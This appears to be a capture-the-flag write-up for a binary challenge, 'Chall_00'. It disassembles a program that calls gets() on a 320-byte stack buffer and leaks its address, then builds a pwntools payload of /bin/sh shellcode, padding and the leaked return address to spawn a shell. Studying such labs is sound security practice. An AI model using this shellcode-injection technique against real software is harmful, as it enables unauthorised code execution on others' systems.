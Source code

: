 # Chall_00

## Solution

##### Disassembling

First we run ```checksec --file=a.out``` to see any vulnerabilities and see there is ```No canary found``` and ```NX disabled``` which means we can implant shellcode. 

Then we run ```r2 -Ad a.out``` to disassemble the file in debug mode and then enter ```s main``` to be taken to main and ```Vp``` to open visual.

```assembly
65: sym.vuln ();                                                                                                                 
│           ; var int64_t var_140h @ rbp-0x140                                                                                     
│           0x5624af44e189      f30f1efa       endbr64                                                                             
│           0x5624af44e18d      55             push rbp                                                                            
│           0x5624af44e18e      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e191      4881ec400100.  sub rsp, 0x140                                                                      
│           0x5624af44e198      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e19f      4889c6         mov rsi, rax                                                                        
│           0x5624af44e1a2      488d3d5f0e00.  lea rdi, str.Heres_a_leak_:___p_n    ; 0x5624af44f008 ; "Here's a leak :) %p\n"     
│           0x5624af44e1a9      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ae      e8cdfeffff     call sym.imp.printf     ;[1] ; int printf(const char *format)                       
│           0x5624af44e1b3      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e1ba      4889c7         mov rdi, rax                                                                        
│           0x5624af44e1bd      b800000000     mov eax, 0                                                                          
│           0x5624af44e1c2      e8c9feffff     call sym.imp.gets       ;[2] ; char *gets(char *s)                                  
│           0x5624af44e1c7      90             nop                                                                                 
│           0x5624af44e1c8      c9             leave                                                                               
└           0x5624af44e1c9      c3             ret  

37: int main (int argc, char **argv, char **envp);                                                                               
│           0x5624af44e1ca      f30f1efa       endbr64                                                                             
│           0x5624af44e1ce      55             push rbp                                                                            
│           0x5624af44e1cf      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e1d2      488d3d470e00.  lea rdi, str.She_sellz_sea_shellz_by_the_return_address    ; 0x5624af44f020 ; "She 
│           0x5624af44e1d9      e892feffff     call sym.imp.puts       ;[3] ; int puts(const char *s)                              
│           0x5624af44e1de      b800000000     mov eax, 0                                                                          
│           0x5624af44e1e3      e8a1ffffff     call sym.vuln           ;[4]                                                        
│           0x5624af44e1e8      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ed      5d             pop rbp                                                                             
└           0x5624af44e1ee      c3             ret                                                                                 
            0x5624af44e1ef      90             nop 
```

We notice that the space we're looking for is ```0x140``` which translates to ```320```
When we run the executable it gives us the leak address which is ```0x7fffdcbfafb0``` so since its a 64bit executable we can ```p64(int(0x7fffdcbfafb0))``` which gives us ```b'\xb0\xaf\xbf\xdc\xff\x7f\x00\x00'```. We can then tell our machine that the executable is 64bits with ```context.arch = "amd64"``` and then ```asm(shellcraft.amd64.sh())``` which gives us ```b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'```. We then check the length of the ```shellcraft``` with ```len(outputabove)``` to get ```48```. Now we can craft our payload with ```payload = outputabove + b'a' * (320 + 8 -48) + p64(int(0x7fffdcbfafb0))```. Send it with ```p.sendline(payload)``` and ```p.interactive``` to get shell. 
